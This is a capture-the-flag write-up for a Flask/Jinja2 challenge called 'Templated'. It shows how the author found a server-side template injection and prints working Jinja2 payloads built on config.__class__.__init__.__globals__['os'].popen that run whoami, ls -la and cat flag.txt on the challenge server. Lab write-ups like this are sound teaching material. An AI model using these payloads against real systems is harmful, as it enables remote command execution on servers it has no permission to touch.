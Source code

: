 ```yaml
---
layout: default
title : muzec - Templated Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/119482850-55be3a80-bd22-11eb-89f7-fd6a1fed8e7b.png)

Just a simple Server Side Template Injection (SSTI) .

On the web page i think we have all the hint we can ask for we already know it Proudly powered by Flask/Jinja2 so let try to confirm it.

![image](https://user-images.githubusercontent.com/69868171/119483235-c06f7600-bd22-11eb-8b1d-3a38ba6f6a32.png)

`http://138.68.141.81:32732/$` we get 404 not found but our input reflect let try injecting another command.

![image](https://user-images.githubusercontent.com/69868171/119483492-0593a800-bd23-11eb-9941-ccd46c750a2d.png)

`http://138.68.141.81:32732/${` Boom again let find the crash point.

![image](https://user-images.githubusercontent.com/69868171/119483686-396ecd80-bd23-11eb-9c70-df465133ad7c.png)

Boom a crash point `http://138.68.141.81:32732/${{` now we can easily generate our payload one fresh payload coming up.

`138.68.141.81:32732/{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}`

![image](https://user-images.githubusercontent.com/69868171/119484124-b26e2500-bd23-11eb-8738-7c7721b1e252.png)

Boom we are the root user cool let list directory.

![image](https://user-images.githubusercontent.com/69868171/119484303-e0ec0000-bd23-11eb-89b4-f6f0ace0a733.png)

![image](https://user-images.githubusercontent.com/69868171/119484373-f3663980-bd23-11eb-9e5a-68096889a917.png)

`138.68.141.81:32732/{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}`

We can see the flag.txt let cat it and we are done.

`138.68.141.81:32732/{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}`

Nah not going to show you the flag get it yourself lol.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


